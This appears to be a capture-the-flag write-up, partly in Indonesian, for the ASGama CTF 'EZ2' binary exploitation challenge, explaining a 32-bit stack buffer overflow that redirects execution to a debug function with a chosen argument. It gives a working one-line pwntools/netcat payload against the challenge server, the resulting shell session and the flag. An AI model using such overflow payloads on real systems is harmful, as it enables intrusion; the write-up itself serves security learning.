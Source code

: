 # __ASGama CTF__ 
## _EZ2_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary Exploitation | 150 | l0l

**Description:** 

> EZ 2
>
> Ku ingin melompat
>
> nc asgama.web.id 40209

>
> [ez2](./ez2)

### ez2
```
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=91febecb162e2e4c737a82cd97f7f38040c28e55, not stripped

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

### ez2 Disassembly
![main](disass_main.png)

![hah](disass_hah.png)

![debug](disass_debug.png)

Soal ini mirip seperti [Buffer2](../Buffer2/README.md) hanya saja selain overwrite `eip` ke fungsi debug, kita juga memberi argumen dalam fungsi ini, karena di dalam fungsi debug, address `ebp+0x8` dibandingkan dengan 0xaabbccdd.

*note: Dalam binary 32 file, konvensi pemanggilan fungsi adalah `'address fungsi'+'ebp'+'argumen1'+'argumen2'+...`


### Payload
`$ (python -c "from pwn import p32; print 'A'*(0x48+4)+p32(0x804851c)+'ebps'+p32(0xaabbccdd)";cat -) | nc asgama.web.id 40209`


### Result 
```
$ (python -c "from pwn import p32; print 'A'*(0x48+4)+p32(0x804851c)+'ebps'+p32(0xaabbccdd)";cat -) | nc asgama.web.id 40209
Debug Mode
ls    
flag
hehe
cat flag
GamaCTF{R0P_r0P_FTW}
```

### Flag 
GamaCTF{R0P_r0P_FTW}